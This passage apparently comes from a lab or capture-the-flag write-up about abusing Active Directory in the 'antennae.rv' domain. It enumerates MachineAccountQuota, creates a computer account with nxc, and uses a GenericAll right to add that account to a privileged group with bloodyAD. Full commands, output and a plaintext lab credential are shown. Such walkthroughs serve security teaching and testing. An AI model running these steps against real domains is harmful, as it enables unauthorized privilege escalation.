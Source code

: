 ## MachineAccountQuota

The `GenericAll` privilege that `jolene.ong` has on the `senior-developers` group allows her to add herself to that group, but this may be disruptive and not an attack that you want to perform in a real-world scenario without proper authorization. Instead, we can use the [`MachineAccountQuota`](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/default-workstation-numbers-join-domain) to create a new computer account in the `antennae.rv` domain, and then add that computer account to the `senior-developers` group.

The `MachineAccountQuota` value can be enumerated using the `maq` module from `nxc`:

```
~$ nxc ldap dc01.antennae.rv -u 'jolene.ong' -p 'BoXALrqvqPd3' -M maq                                              
LDAP        10.5.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert) 
LDAP        10.5.10.10      389    DC01             [+] antennae.rv\jolene.ong:BoXALrqvqPd3 
MAQ         10.5.10.10      389    DC01             [*] Getting the MachineAccountQuota
MAQ         10.5.10.10      389    DC01             MachineAccountQuota: 10
```

The default value for `MachineAccountQuota` is `10`, which means that any authenticated user can create up to `10` computer accounts in the domain. We can use the `nxc` tool to create a new computer account called `gatari$`:

```
~$ nxc smb dc01.antennae.rv -u 'jolene.ong' -p 'BoXALrqvqPd3' -M add-computer -o NAME="gatari$" PASSWORD='P@ssw0rd'
SMB         10.5.10.10      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:antennae.rv) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.5.10.10      445    DC01             [+] antennae.rv\jolene.ong:BoXALrqvqPd3 
ADD-COMP... 10.5.10.10      445    DC01             Successfully added the machine account: "gatari$" with Password: "P@ssw0rd"
```

## Abusing GenericAll on Group

This new computer account can then be used to authenticate to the `antennae.rv` domain controller `dc01.antennae.rv`:

```
~$ nxc ldap dc01.antennae.rv -u 'gatari$' -p 'P@ssw0rd'                                                           
LDAP        10.5.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert) 
LDAP        10.5.10.10      389    DC01             [+] antennae.rv\gatari$:P@ssw0rd 
```

With this computer account added, we can now use `jolene.ong` to add `gatari$` to the `senior-developers` group. The [bloodyAD](https://github.com/CravateRouge/bloodyAD) tool can be used for this purpose:

```
~$ bloodyAD --host 'dc01.antennae.rv' -u 'jolene.ong' -p 'BoXALrqvqPd3' add groupMember 'senior-developers' 'gatari$'
[+] gatari$ added to senior-developers
```
